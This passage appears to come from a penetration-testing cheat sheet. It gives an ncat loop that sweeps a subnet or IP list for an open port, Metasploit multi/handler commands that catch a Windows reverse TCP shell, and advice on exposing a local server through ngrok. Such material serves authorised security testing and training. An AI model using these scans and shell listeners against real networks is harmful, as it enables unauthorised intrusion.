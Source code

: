 Find out how to create an SSL/TLS certificate at [ivan-sincek/secure-website](https://github.com/ivan-sincek/secure-website/tree/master/crt).

Check if connection to a specified TCP port (e.g., port 22 or 23) is possible:

```bash
for i in {0..255}; do ncat -nv "192.168.8.${i}" 9000 -w 2 -z 2>&1 | grep -Po '(?<=Connected\ to\ )[^\s]+(?=\.)'; done

for ip in $(cat ips.txt); do ncat -nv "${ip}" 9000 -w 2 -z 2>&1 | grep -Po '(?<=Connected\ to\ )[^\s]+(?=\.)'; done
```

### multi/handler

Set up a listener (change the PAYLOAD, LHOST, and LPORT as necessary):

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

### ngrok

Use [ngrok](https://ngrok.com/download) to give your local web server a public address, but do not expose the web server for too long if it is not properly hardened due to security concerns.

I advise you not to transfer any sensitive data over it, just in case.

### Additional References

Credits to the authors!

* [book.hacktricks.xyz](https://book.hacktricks.xyz/welcome/readme)
* [infosecmatter.com/bug-bounty-tips](https://www.infosecmatter.com/bug-bounty-tips)
* [pentestbook.six2dez.com](https://pentestbook.six2dez.com)
